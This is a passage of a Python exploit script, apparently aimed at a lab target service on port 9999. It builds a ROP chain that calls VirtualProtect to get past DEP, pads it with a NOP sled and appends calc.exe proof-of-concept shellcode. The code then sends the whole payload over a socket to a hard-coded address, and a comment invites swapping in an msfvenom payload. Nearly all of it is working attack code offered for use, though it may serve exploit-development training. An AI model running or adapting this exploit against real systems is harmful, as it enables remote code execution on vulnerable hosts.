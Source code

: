 ```python
parameters += struct.pack('<L', 0x62506060)    # pOldProtect (any writeable address)

# Padding to reach gadgets
padding = "\x90" * 4

# add esp, 0x1C + ret will land here
# Increase ECX C bytes (ECX right now contains old ESP) to equal address of the VirtualProtect return address place holder
# (no pointers have been created yet)
rop2 = struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77e17270)   # 0x77e17270: inc ecx ; ret  ;  (1 found)

# Move ECX into EDX, and increase it 4 bytes to reach location of VirtualProtect lpAddress parameter
# (no pointers have been created yet. Just preparation)
# Now ECX contains the address of the VirtualProtect return address
# Now EDX (after the inc edx instructions), contains the address of the VirtualProtect lpAddress location
rop2 += struct.pack ('<L', 0x6ffb6162)  # 0x6ffb6162: mov edx, ecx ; pop ebp ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x50505050)  # padding to compensate for pop ebp in the above ROP gadget
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)
rop2 += struct.pack ('<L', 0x77f226d5)  # 0x77f226d5: inc edx ; ret  ;  (1 found)

# Increase EAX, which contains old ESP, to equal around the address of shellcode
# Determine how far shellcode is away, and add that difference into EAX, because
# EAX is being used for calculations
rop2 += struct.pack('<L', 0x6ff7e29a)    # 0x6ff7e29a: add eax, 0x00000100 ; pop ebp ; ret  ;  (1 found)
rop2 += struct.pack('<L', 0x41414141)    # padding to compensate for pop ebp in the above ROP gadget

# Padding between ROP Gadgets and shellcode. Arbitrary number (just make sure you have enough room on the stack)
padding2 = "\x90" * 250

# calc.exe POC payload created with the Windows API system() function.
# You can replace this with an msfvenom payload if you would like
shellcode = "\x31\xc0\x50\x68"
shellcode += "\x63\x61\x6c\x63"
shellcode += "\x54\xbe\x77\xb1"
shellcode += "\xfa\x6f\xff\xd6"

# 5000 byte total crash
filler = "\x43" * (5000-len(command)-len(crash)-len(parameters)-len(padding)-len(rop)-len(padding2)-len(padding2))
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.16.55.148", 9999))
s.send(command+crash+rop+parameters+padding+rop2+padding2+shellcode+filler)
s.close()
```
